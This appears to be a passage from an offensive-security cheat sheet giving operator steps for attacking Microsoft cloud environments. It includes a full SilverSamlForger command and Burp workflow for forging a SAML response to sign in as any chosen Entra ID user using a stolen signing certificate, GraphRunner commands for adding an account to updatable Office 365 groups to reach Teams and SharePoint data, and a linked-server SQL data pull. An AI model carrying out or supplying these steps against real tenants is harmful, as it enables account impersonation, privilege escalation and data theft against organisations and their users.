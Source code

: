 #### Retrieve data
```
$ServerName = '<STRING>'
$DBName = '<STRING>'

EXECUTE ('SELECT * FROM [$ServerName].[$DBName].[dbo].[inventory]') AT [<NAME>]
```

## Silver SAML
- If an attacker retrieves the external certificate that is configured to sign the SAML Response, they can gain access as any user
- Requires the certificate of the Azure Enterprise Application SSO

#### Forge SAMLResponse
- https://github.com/Semperis/SilverSamlForger
- Turn on burp, Open the Burp Browser and Login with SSO and forward requests till the `POST /sso/saml` request
- Send request to repeater
- Forge new SAML Request with command below
	- Parameters
		- `--idpid` Retrieve `Microsoft Entra Identifier` from Single sign-on page of the enterprise application
		- `--recipient` and `--audience` Retrieve `Reply URL (Assertion Consumer Service URL)` from Single sign-on page of the enterprise application
		- `<TENANT ID>` is in multiple URLs on the page. Retrieve from `App Federation Metadata Url`
		- `<OBJECT IDENTIFIER OF TARGET USER>` Get from target user in Entra ID
		- `<DISPLAYNAME OF TARGET USER>` Idem
		- `<MICROSOFT ENTRA IDENTIFIER>` Retrieve `Microsoft Entra Identifier` from Single sign-on page of the enterprise application

```
.\SilverSAMLForger.exe generate --pfxPath <PATH TO PFX> --pfxPassword <PFX PASSWORD> --idpid <URL> --recipient <URL> --subjectnameid <TARGET USER UPN> --audience <URL> --attributes http://schemas.microsoft.com/identity/claims/tenantid=<TENANT ID>,http://schemas.microsoft.com/identity/claims/objectidentifier=<OBJECT IDENTIFIER OF TARGET USER>,http://schemas.microsoft.com/identity/claims/displayname=<DISPLAYNAME OF TARGET USER>,http://schemas.microsoft.com/identity/claims/identityprovider=<MICROSOFT ENTRA IDENTIFIER>/,http://schemas.microsoft.com/claims/authnmethodsreferences=http://schemas.microsoft.com/ws/2008/06/identity/authenticationmethod/password,http://schemas.xmlsoap.org/ws/2005/05/identity/claims/emailaddress=<TARGET USER UPN>,http://schemas.xmlsoap.org/ws/2005/05/identity/claims/name=<TARGET USER UPN>
```

- Copy the SAML Response and replace it in repeater, including RelayState variable
- Send the request and in the Reponse right click and select Show Response in Browser
- Open a private windows in the Burp Browser and paste the URL

## Office 365
### Updateable groups
- https://github.com/dafthack/GraphRunner

#### Check for updateable groups
```
Get-UpdatableGroups -Tokens $tokens
```

#### Add to interesting group
```
Invoke-AddGroupMember -Tokens $tokens -GroupId <ID> -userId <USERID>
```

#### Check for access of group
- Browse through the Teams channel and SharePoint files for interesting data!
